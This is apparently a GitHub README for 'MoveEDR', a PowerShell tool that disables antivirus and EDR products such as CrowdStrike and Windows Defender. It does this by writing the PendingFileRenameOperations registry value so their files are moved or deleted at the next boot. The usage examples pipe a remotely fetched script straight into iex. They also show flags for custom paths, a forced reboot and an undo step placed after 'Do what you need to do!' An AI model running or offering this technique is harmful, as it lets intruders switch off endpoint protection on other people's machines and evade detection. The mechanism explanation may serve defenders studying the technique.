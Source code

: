 # MoveEDR

If you're admin you can force Windows to delete or move folders and files around immediately after booting before services are started. This can be used to disable EDRs.

## Usage

> [!CAUTION]
> There is an issue with CrowdStrike which results in a bootloop with the message "INACCESSIBLE_BOOT_DEVICE".
> My theory is that either CrowdStrike itself or a software deployment solution is trying to install the missing CrowdStrike files but fails and leaves it in a broken state.
> I am not sure if this depends on the elapsed time after the move or on the number of performed reboots.
> Moving CrowdStrike away for the first time and rebooting works fine.
> Maybe schedule the undo after the first reboot to err on the side of caution.

```
curl https://raw.githubusercontent.com/duhirsch/MoveEdr/refs/heads/main/MoveEdr.ps1 | iex; MoveEdr
# Reboot!
```

The following Flags are available
- `Undo` : Undo the EDR Move, works with `CustomPaths`
- `Clear`: Clear the registry key's value
- `Print`: Print the value of the registry key in a human-readable format instead of strings terminated by null bytes
- `CustomOnly`: By default, the `CustomPaths` and `FullyCustomPaths` are added to the built-in moves. This flag ensures that *only* your custom paths are moved.
- `CustomPaths`: Specify your own EDR Paths instead of using built-in ones. Only takes sources as inputs, to also customize the destination use `FullyCustomPaths` instead.
- `FullyCustomPaths` : Specify sources and destinations, gives you control over destination instead of using a `$Suffix`.
- `Suffix`: Use a different suffix for moved files instead of the default `_bak`
- `Dump`: Dump the values of the registry key in a format that can be used with `Load`
- `Load`: Load previously dumped values of the registry key
- `DefenderHard`: Instead of moving only select executables of the Windows Defender, move the whole `Windows Defender` folder
- `IgnoreOld`: Do not keep already existing values of the registry key, blindly overwrite them
- `Reboot`: Perform a reboot immediately after setting the registry key. Might perform Windows Updates and take a long time to reboot 😬

### Example
```
curl https://raw.githubusercontent.com/duhirsch/MoveEdr/refs/heads/main/MoveEdr.ps1 | iex
MoveEdr -CustomPaths "C:\Program Files\newAndShinyEdr","C:\Windows\System32\drivers\newAndShinyEdr" -Suffix "_x33f" -IgnoreOld -DefenderHard -Reboot

# Do what you need to do!

# Undo
# Same command as before, just append -Undo
curl https://raw.githubusercontent.com/duhirsch/MoveEdr/refs/heads/main/MoveEdr.ps1 | iex
MoveEdr -CustomPaths "C:\Program Files\newAndShinyEdr","C:\Windows\System32\drivers\newAndShinyEdr" -Suffix "_x33f" -IgnoreOld -DefenderHard -Reboot -Undo
```

## Long Story
Some programs have a feature which prevents even local administrators from uninstalling or disabling them. Most of the time these are AVs/EDRs which prompt you for a deactivation password, even when you are administrator.

Here is a trick to disable them by moving files and folders around so that they can not be started on the next boot.

[SysInternals's PendMoves](https://learn.microsoft.com/en-us/sysinternals/downloads/pendmoves) provides `movefile.exe` which has the following explanation:

>There are several applications, such as service packs and hotfixes, that must replace a file that's in use and is unable to. Windows therefore provides the MoveFileEx API to rename or delete a file and allows the caller to specify that they want the operation to take place the next time the system boots, before the files are referenced. Session Manager performs this task by reading the registered rename and delete commands from the HKLM\System\CurrentControlSet\Control\Session Manager\PendingFileRenameOperations value.

How exactly does `MoveFileEx` do this? Let's check the [documentation](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-movefileexa#remarks) :

> The function stores the locations of the files to be renamed at restart in the following registry value: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\PendingFileRenameOperations
> 
> This registry value is of type REG_MULTI_SZ. Each rename operation stores one of the following NULL-terminated strings, depending on whether the rename is a delete or not:
>
>    szSrcFile\0\0  
>    szSrcFile\0szDstFile\0

This means that we can achieve the same effect as `movefile.exe`by creating the registry key `PendingFileRenameOperations`and enter the paths of the files/directories we want to delete in the correct `REG_MULTI_SZ` format.

The `MoveEdr` script automates creating the correct registry keys for the following AVs/EDRs:

- [ ] Bitdefender
- [ ] Blackberry Cylance
- [ ] Checkpoint
- [ ] Cisco
- [x] CrowdStrike
- [ ] Cyberreason
- [x] Elastic
- [ ] Fortinet
- [ ] Kaspersky
- [ ] Malwarebytes
- [ ] McAfee
- [ ] Palo Alto Cortex
- [ ] Sentinel One
- [ ] Symantec
- [X] Trellix (previously FireEye) thanks to [@0x48756773](https://github.com/0x48756773)
- [x] Trend Micro Security Agent
- [ ] VMware Carbon Black
- [ ] Webroot
- [x] Windows Defender
- [x] Windows Defender for Endpoint
